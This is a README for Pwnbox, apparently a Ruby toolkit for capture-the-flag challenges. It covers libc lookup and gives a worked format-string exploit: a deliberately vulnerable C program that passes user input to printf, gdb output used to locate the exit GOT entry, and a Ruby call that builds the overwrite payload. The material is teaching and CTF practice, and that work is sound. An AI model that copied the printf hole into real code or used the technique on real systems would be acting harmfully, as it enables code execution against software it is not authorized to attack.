 # Pwnbox

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
    libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
    puts "Path : #{libc.path}"
    puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

